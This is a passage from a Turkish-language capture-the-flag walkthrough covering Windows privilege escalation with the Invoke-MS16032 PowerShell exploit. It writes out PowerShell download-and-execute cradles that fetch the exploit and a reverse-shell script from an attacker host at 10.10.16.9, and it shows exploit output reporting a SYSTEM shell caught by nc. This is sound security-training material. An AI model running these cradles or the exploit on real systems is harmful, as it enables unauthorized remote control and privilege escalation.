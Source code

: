 Bunun bir kopyasını indireceğim ve reverse shell'imi indirmek ve çalıştırmak için bir komutla çağırmak üzere sonuna bir satır ekleyeceğim:

```
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.9/rev.ps1')"
```

64 bit shell'den (ve hem rev.ps1'i sunan bir Python web sunucusu hem de shell'i almak için 443'ü dinleyen nc ile), exploit'i indirmek ve çalıştırmak için aynı PowerShell cradle'ı kullanacağım:

```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.16.9/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

Invoke-MS16032.ps1 için hemen bir istek geliyor. Son mesaj çıktıktan sonra, rev.ps1 için başka bir istek ve ardından nc'de bir shell var:

![Pasted image 20250209182929.png](/img/user/Pasted%20image%2020250209182929.png)

Ve root.txt dosyasını alabilirim:

![Pasted image 20250209183043.png](/img/user/Pasted%20image%2020250209183043.png)
